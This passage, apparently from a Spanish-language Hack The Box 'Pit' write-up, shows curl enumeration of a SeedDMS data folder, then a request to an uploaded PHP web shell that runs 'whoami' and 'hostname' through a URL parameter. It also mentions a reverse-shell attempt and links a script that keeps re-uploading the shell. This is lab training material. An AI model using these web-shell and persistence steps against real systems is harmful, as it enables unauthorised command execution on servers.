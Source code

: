 El **DMS** esta siendo mantenido en la ruta `/seeddms51x/seeddms`, pero podríamos intentar encontrar la carpeta `data...` fuera de él, o sea:

```html
http://dms-pit.htb/seeddms51x/data
```

Puessssssssssssss:

```bash
❱ curl -s -L http://dms-pit.htb/seeddms51x/algoqueesperonoexistaymehagaquedarmal/ | grep title
<head><title>404 Not Found</title></head>
```

```bash
❱ curl -s -L http://dms-pit.htb/seeddms51x/data/ | grep title
<head><title>403 Forbidden</title></head>
```

Nos devuelve un **forbidden**, así que existe, pero no tenemos acceso a él :P Perfecto, pues ahora busquemos el archivo:

```bash
❱ curl http://dms-pit.htb/seeddms51x/data/1048576/48/1.php
```

No nos devuelve ningún error ni output, así que podemos pensar que lo encontró (: pues ejecutemos un `whoami` y un `hostname` a ver si nos responde:

```html
http://dms-pit.htb/seeddms51x/data/1048576/48/1.php?xmd=whoami; echo " - "; hostname
```

Yyyy:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/pit/346page80dms_seeddmsRCE_whoamiYhostname.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Listoneeeeeeeeeeeeeeeeeeeeeeees, que martirio estoo, pero tamos. Tenemos ejecución remota de comandos en el sistema como el usuario **nginx**, aprovechemos para generarnos una **Reverse Shell**.

Después de algunos intentos no lo logramos, así que tendremos que enumerar el sistema desde el servidor web.

Jugando con **Python** creamos una fake-shell:

> [fakeSheedDMS.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/pit/fakeSheedDMS.py)

**Me gusto como quedo en cuanto a lo que hace el script, nos logeamos, subimos PHP y generamos la fake-shell, peeeero como el servidor borra cada cierto los archivos de la carpeta de **michelle** pues jugamos con eso y cuando nos devuelva `File not found` volvemos a subir el archivo PHP sin perder la fake-shell :)**

Es medio fea, ya que no podemos movernos de la carpeta en la que aparecemos, así que tenemos que jugar con rutas absolutas o `../../../` 😛

...

Recordé una utilidad de [S4vitar](https://s4vitar.github.io/) que nos permite obtener una Shell en la que podemos movernos (`cd`) entre carpetas sin problemas, algo que en la nuestra no se puede. Esto lo hace jugando con tuberías y cositas locas, les dejo el link, ta buenasa:
